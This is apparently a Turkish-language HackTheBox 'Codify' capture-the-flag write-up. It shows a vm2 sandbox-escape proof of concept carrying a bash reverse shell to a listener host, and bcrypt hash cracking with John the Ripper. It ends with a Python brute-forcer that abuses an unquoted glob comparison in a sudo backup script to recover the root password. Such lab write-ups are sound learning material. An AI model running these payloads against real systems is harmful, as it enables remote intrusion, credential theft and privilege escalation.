


# Codify

## User Flag

!!! info "Target IP Address"

    10.10.11.239

Keşfe başlamak için ilk olarak aşağıdaki komut ile bir Nmap taraması gerçekleştirdim:

```bash
nmap 10.10.11.239 -oX htb/codify.xml -sC -sV
```

Çıktıları görselleştirmek aşağıdaki komutu kullandım:

```bash
xsltproc htb/codify.xml -o htb/codify.html
```



Tarama sonuçlarında 80 numaralı port açık olarak gözükmektedir. Bu bilgiden hareketle, siteyi bir web tarayıcısında ziyaret etmeyi düşündüm. URL kısmına IP adresini girerek siteye gittiğimde [http://codify.htb](http://codify.htb) isimli bir sayfaya yönlendirildim.

Bu adresi `/etc/hosts` dosyasına ekledim:

```bash
echo "10.10.11.239 codify.htb" | sudo tee -a /etc/hosts
```

Tekrar aynı siteye gitmeyi denediğimde bu sefer başarılı oldum. Bu sayfada bulunan `About us` linkine tıkladım ve aşağıdaki sonuç ile karşılaştım:



Buradaki bilgilendirme metnini okuduğumda bu sitenin, JavaScript kodunu koruma altına almaya (sandbox) yarayan `vm2` isimli bir kütüphane kullandığını öğrendim. Verilen linke gittiğimde ise bu kütüphanenin, giderilemeyen güvenlik açıklarından dolayı artık geliştirilmediğini ve kullanılmaması gerektiği bilgisine ulaştım.

Kısa bir Google aramasından sonra bu durumla ilgili bir [PoC](https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244#proof-of-concept) (Proof of Concept) koduna ulaştım. Bu kod sayesinde kötü amaçlı bir payload, sandbox sınırlarından kurtulup sistem üzerinde komut yürütebilir hale gelebiliyor.

Bu kodun `catch` bloğu içerisinde `payload` isimli bir değişken oluşturdum (aynı zamanda `execSync` içerisinde bu değişkeni kullandım) ve bu değişkenin değerini bir reverse shell olacak şekilde ayarladım:

```javascript title="PoC" hl_lines="21"
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};

const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {


    var payload = 'bash -c "bash -i &>/dev/tcp/10.10.14.45/4444 0>&1"';


    c.constructor('return process')().mainModule.require('child_process').execSync(payload);
}
`

console.log(vm.run(code));
```

Ardından Netcat ile 4444 numaralı port üzerinde bir dinleyici başlattım:

```bash
nc -lvnp 4444
```

PoC kodunu [http://codify.htb/editor](http://codify.htb/editor) sitesinde bulunan editör üzerinde çalıştırdığımda Netcat dinleyici üzerinde shell elde edebildim.

Hemen arkasından shell yükseltmesi yaparak daha sağlam bir TTY elde ettim ve böylece komut çalıştırırken alınabilecek hataları en aza indirgemiş oldum.

Aşağıdaki komut ile `/var/www/` dizininin içeriğini kontrol ettim:

```bash
ls /var/www/*
```

```text title="Output" hl_lines="6"
/var/www/contact:
index.js
package.json
package-lock.json
templates
tickets.db

/var/www/editor:
index.js
node_modules
package.json
package-lock.json
templates

/var/www/html:
index.html
```

Burada bulunan `tickets.db` dosyası ilgi çekiciydi. Bu yüzden ilk önce bu dosyanın türünü kontrol ettim:

```bash
file /var/www/contact/tickets.db
```

```text title="Output"
/var/www/contact/tickets.db: SQLite 3.x database, last written using SQLite version 3037002, file counter 17, database pages 5, cookie 0x2, schema 4, UTF-8, version-valid-for 17
```

Bu dosya bir SQLite veri tabanı dosyasıydı, bu yüzden SQLite ile etkileşime geçtim:

```bash
sqlite3
```

Aşağıdaki sorgu ile kullanıcılara ait kullanıcı adı ve parola bilgisini ele geçirdim:

```sql
SELECT * FROM users;
```

```text title="Output"
3|joshua|$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
```

Hash dizesinden parolayı elde etmek için John the Ripper aracını kullandım. Öncesinde bu hash dizesini bir dosyaya kaydettim:

```bash
echo '$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2' > hash.txt
```

John aracını aşağıdaki şekilde kullandım:

```bash
john -w=/usr/share/wordlists/rockyou.txt hash.txt
```

```text title="Output" hl_lines="6"
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 4096 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
spongebob1       (?)
1g 0:00:01:05 DONE (2024-01-15 02:59) 0.01518g/s 20.77p/s 20.77c/s 20.77C/s winston..angel123
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

John, parolayı 1 dakika gibi kısa bir sürede buldu.

Bu bilgiler ile `joshua` kullanıcısına geçiş yaparak `svc` --> `joshua` yetki yükseltmesi gerçekleştirmiş oldum:

```bash
su joshua
```

Yeni kullanıcı hesabına geçiş yaptıktan sonra aşağıdaki komut ile kullanıcı bayrağını elde edebildim:

```bash
find / -name *user.txt -type f -exec cat {} \; 2> /dev/null
```

## Root Flag

Mevcut yetkilerimi daha da yükseltebilmek için bazı araştırmalar gerçekleştirdim. İlk olarak aşağıdaki kontrolü sağladım:

```bash
sudo -l
```

```text title="Output" hl_lines="7"
Matching Defaults entries for joshua on codify:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User joshua may run the following commands on codify:
    (root) /opt/scripts/mysql-backup.sh
```

Mevcut kullanıcı ile `mysql-backup.sh` script dosyasını çalıştırabildiğimi fark ettim. Bu dosyanın içeriği aşağıdaki gibiydi:

```bash title="mysql-backup.sh" linenums="1" hl_lines="9"
#!/bin/bash
DB_USER="root"
DB_PASS=$(/usr/bin/cat /root/.creds)
BACKUP_DIR="/var/backups/mysql"

read -s -p "Enter MySQL password for $DB_USER: " USER_PASS
/usr/bin/echo

if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi

/usr/bin/mkdir -p "$BACKUP_DIR"

databases=$(/usr/bin/mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "SHOW DATABASES;" | /usr/bin/grep -Ev "(Database|information_schema|performance_schema)")

for db in $databases; do
    /usr/bin/echo "Backing up database: $db"
    /usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db" | /usr/bin/gzip > "$BACKUP_DIR/$db.sql.gz"
done

/usr/bin/echo "All databases backed up successfully!"
/usr/bin/echo "Changing the permissions"
/usr/bin/chown root:sys-adm "$BACKUP_DIR"
/usr/bin/chmod 774 -R "$BACKUP_DIR"
/usr/bin/echo 'Done!'
```

Burada dikkatimi çeken ilk şey IF bloğunda parola kontrolünün nasıl sağlandığı oldu. [ShellCheck](https://www.shellcheck.net/) sitesinde bu kodu test edersek, tam da bu satır için aşağıdaki uyarı ile karşılaşırız:

```text
SC2053 (warning): Quote the right-hand side of == in [[ ]] to prevent glob matching.
```

Uyarıyı ([SC2053](https://www.shellcheck.net/wiki/SC2053)) incelersek, IF kontrolünün sağında bulunan kısım tırnak içerisine alınmadığında Glob Matching durumunun oluşabileceği anlaşılır. Glob Matching, RegEx benzeri bir işlevsellik sunar.

!!! info "Glob Matching"

    Bu açığı kapatmak için değişken etrafında tırnak işaretleri (`"$USER_PASS"`) kullanılmalıydı.

Bu açıktan faydalanarak parolayı kaba kuvvet ile kırmayı deneyeceğiz. Bunun için aşağıdaki Python kodunu kullanacağız:

```python title="brute.py" linenums="1"
import subprocess
from string import ascii_letters, digits

password = ''
found = False

while not found:
    for char in ascii_letters + digits:
        cmd = f"echo '{password}{char}*' | sudo /opt/scripts/mysql-backup.sh"
        res = subprocess.run(cmd, shell=True, capture_output=True, text=True)
        if 'Password confirmed!' in res.stdout:
            password += char
            print(password)
            break
    else:
        found = True
```

Verilen kodun yaptığı işlemler şunlardır:

* Verilen karakterler için `*` wildcard kullanarak IF bloğunun True olup olmadığını kontrol eder.
* True olursa (`Password confirmed!`) parola değişkeni güncellenir.
* False olursa bir sonraki değer denenir.
* Tüm karakterler denendikten sonra parola bulunmuş olur.

Örneğin doğru parala `test1234` olsun. IF kontrolünün sağ kısmı `t*` olursa True elde edilir, böylece parola değişkeni `t` karakteri ile güncellenir. Ardından sırasıyla `te*`, `tes*` vs. denenir. Nihayetinde doğru parola elde edilir.

Parolayı kırmak için Python kodunu çalıştırdım:

```bash
python3 brute.py
```

```text title="Output" hl_lines="21"
k
kl
klj
kljh
kljh1
kljh12
kljh12k
kljh12k3
kljh12k3j
kljh12k3jh
kljh12k3jha
kljh12k3jhas
kljh12k3jhask
kljh12k3jhaskj
kljh12k3jhaskjh
kljh12k3jhaskjh1
kljh12k3jhaskjh12
kljh12k3jhaskjh12k
kljh12k3jhaskjh12kj
kljh12k3jhaskjh12kjh
kljh12k3jhaskjh12kjh3
```

Bulunan parola ile `root` kullanıcısına geçiş yaparak `joshua` --> `root` yetki yükseltmesi gerçekleştirmiş oldum:

```bash
su root
```

Kullanıcı bayrağını ele geçirirken kullandığım komuta benzer bir komut ile `root` bayrağını ele geçirebildim:

```bash
find / -name *root.txt -type f -exec cat {} \; 2> /dev/null
```
